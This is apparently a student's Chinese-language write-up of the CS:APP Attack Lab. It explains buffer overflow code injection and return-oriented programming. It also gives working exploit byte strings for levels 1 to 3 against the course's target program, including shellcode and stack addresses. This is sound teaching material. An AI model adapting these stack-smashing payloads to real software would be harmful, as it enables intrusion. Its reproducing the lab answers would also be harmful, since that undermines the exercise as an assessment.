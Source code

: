 # Attack Lab

## 实验目的

理解缓冲区溢出攻击的种类和原理，掌握实施攻击的简单技术，更加深入理解汇编代码和机器码的关系、运行栈的原理等。

## 实验原理

缓冲区溢出攻击有两种：代码注入和使用返回指令进行攻击。

### 代码注入

代码注入的原理为，在运行栈上原本的 return address 上填充目标指令的地址，使得函数执行 `ret` 时跳转到目标代码。目标指令可以是现有的指令，也可以是栈上通过缓冲区填充的二进制指令。后者只能在关闭了只读保护的前提下进行，而且因为需要将指令地址硬编码进入缓冲区，所以需要栈地址固定。

最简单的情况是，不需要执行自定义指令，直接跳转到一个已有的指令。此时，只需要使用字符将缓冲区填满，再将此指令的地址填入 return address 即可：

```text
+----------------------------+
addr of instruction             <--- %rsp
+----------------------------+

padding (size of buffer)

+----------------------------+
```

如果需要执行自定义的指令，情况稍微复杂一点。首先，return address 应该填充第一条自定义指令在栈上的地址，而这条自定义指令的地址只能在运行期确定。幸运的是，如果栈地址是固定的，那么可以通过运行一次程序，使用 debugger 确定栈的地址，并将其填充入 return address。这样，返回时就会跳转到第一条自定义指令，并且顺序执行之后的指令。

一种构造的运行栈如下：

在原来 return address 的高 8 位，填充在执行完自定义指令后跳转的现有指令的地址，并将最后一条自定义指令设置为 `ret`。这样，就可以在执行完自定义指令后，跳转到需要执行的现有指令。

利用一种方法构造的运行栈如下。其中的指令长度不一定为 8，需要紧密排列在一起。额外的 padding 与指令的总大小为缓冲区的总大小。

```text
+----------------------------+
addr of existing instruction     <--- %rsp after 'ret'
+----------------------------+
addr of instruction 1            <--- %rsp
+----------------------------+   -------+
instruction 1                           |
+----------------------------+          |
instruction 2                           |
..............................          |
instruction n                           |
+----------------------------+          | size of buffer
ret                                     |
+----------------------------+          |
                                        |
padding                                 |
                                        |
+----------------------------+   -------+
```

当然，自定义指令的位置可以灵活放置，不过原理都是类似的。

### 利用返回指令

在开启了栈保护的程序中，栈的地址不能静态地确定，而且栈上的指令无法执行，只能通过执行已有指令进行攻击。

这种攻击的基本思路是，在缓冲区上方填充若干个 gadget 的地址，每一个 gadget 都是现有的指令，并以 `c3`，即 `ret` 的机器码结尾。这样，在执行完 gadget 的指令后，栈指针都会指向下一个 gadget 的地址，由此可以连续执行所有 gadget 的指令。

```text
+----------------------------+
addr of dest instruction        <--- %rsp after gadget n
+----------------------------+
addr of gadget n                <--- %rsp after gadget n-1
.............................. 
addr of gadget 2                <--- %rsp after gadget 1
+----------------------------+
addr of gadget 1                <--- %rsp
+----------------------------+

padding

+----------------------------+
```

## 实验过程

首先，通过反汇编获取缓冲区的大小。根据 `getbuf` 的汇编代码：

```text
0000000000401804 <getbuf>:
  401804:	48 83 ec 38          	sub    $0x38,%rsp
  401808:	48 89 e7             	mov    %rsp,%rdi
  40180b:	e8 94 02 00 00       	callq  401aa4 <Gets>
  401810:	b8 01 00 00 00       	mov    $0x1,%eax
  401815:	48 83 c4 38          	add    $0x38,%rsp
  401819:	c3                   	retq   
```

我们可以知道，在栈上开辟了 `0x38` 大小的空间，这就是我们需要的缓冲区大小。

### CI - Level 1

这个部分要求跳转到函数 `touch1`。通过反汇编，得到 `touch1` 的地址：

```text
000000000040181a <touch1>:
```

地址为 `0x40181a`。于是，构造以下的输入：

```text
32 32 32 32 32 32 32 32 32 32
32 32 32 32 32 32 32 32 32 32
32 32 32 32 32 32 32 32 32 32
32 32 32 32 32 32 32 32 32 32
32 32 32 32 32 32 32 32 32 32
32 32 32 32 32 32
1a 18 40 00 00 00 00 00
```

其中 56 个字节为 padding，将 `0x40181a` 根据小端字节序填充即可。

运行栈情形如下：

```text
+----------------------------+
addr of touch1                 <--- %rsp
+----------------------------+

padding

+----------------------------+
```

### CI - Level 2

这个部分要求跳转到函数 `touch2`，并且需要传递 Cookie 作为参数。我们需要执行自定义的指令，使得 `%rdi` 中的内容为我们的 Cookie。

#### 获得指令机器码

自定义指令如下：

```assembly
movq $0x283db5ea, %rdi
ret
```

使用 `gcc -c`，得到对应的机器码：

```text
0:	48 c7 c7 ea b5 3d 28 	mov    $0x283db5ea,%rdi
7:	c3                   	retq   
```

#### 获取运行栈的地址

然后，通过 `gdb` 获取运行栈的地址。在 `getbuf` 的 `ret` 指令处设置断点：

```text
(gdb) b *0x401819
```

在断点处打印 `%rsp` 的值：

```text
Breakpoint 1, 0x0000000000401819 in getbuf () at buf.c:16
(gdb) p $rsp
$1 = (void *) 0x556563b0
```

可以得到，当前栈指针指向的地址为 `0x556563b0`。

#### 填充

使用[实验原理](#实验原理)中的方法，将机器码，以及 `touch2` 的地址填充：

```text
32 32 32 32 32 32 32 32 32 32
32 32 32 32 32 32 32 32 32 32
32 32 32 32 32 32 32 32 32 32
32 32 32 32 32 32
00 00 00 00 00 00 00 00 00 00 00 00
48 c7 c7 ea b5 3d 28    /* movq $0x283db5ea, %rdi */
c3                      /* ret */
a8 63 65 55 00 00 00 00 /* addr of 'movq $0x283db5ea, %rdi' */
48 18 40 00 00 00 00 00 /* addr of touch2 */
```

即可在跳转至 `touch2` 之前，将 Cookie 写入 `%rdi`。

运行栈情形如下：

```text
+------------------------------+
addr of touch2                   <--- %rsp after 'ret'
+------------------------------+
addr of 'movq $0x283db5ea, %rdi' <--- %rsp
+------------------------------+
ret | movq $0x283db5ea, %rdi
+------------------------------+
padding
...
+------------------------------+
```

### CI: Level 3

这个部分要求跳转到函数 `touch3`，并且需要传递 Cookie 字符串的地址作为参数。由于是传地址，我们需要将 Cookie 字符串填充在栈上，并获取栈上此字符串的地址。

我们利用与上一个题目类似的思路将自定义指令填充进缓冲区中。由于 `touch3` 中会开辟栈空间，将字符串填充至最低位置，并注意加上 `\0` 作为结尾，然后将字符串的地址（通过栈指针指向的地址和与其的偏移量确定）写入 `%rdi` 中：

```text
32 38 33 64 62 35 65 61 00    /* string */
32 32 32 32 32 32 32 32 32 32
32 32 32 32 32 32 32 32 32 32
32 32 32 32 32 32 32
00 00 00 00 00 00 00 00 00 00 00 00
48 c7 c7 78 63 65 55    /* movq $0x55656378 (addr of string), %rdi */
c3                      /* ret */
a8 63 65 55 00 00 00 00 /* addr of 'movq $0x55656378, %rdi' */
5f 19 40 00 00 00 00 00 /* addr of touch3 */
```

运行栈情形如下：

```text
+-----------------------------+
addr of touch3                  <--- %rsp after 'ret'
+-----------------------------+
addr of 'movq $283db5ea, %rdi'  <--- %rsp
+-----------------------------+
ret | movq $283db5ea, %rdi
+-----------------------------+
padding
...
32 38 33 64 62 35 65 61 00 ...
+-----------------------------+
```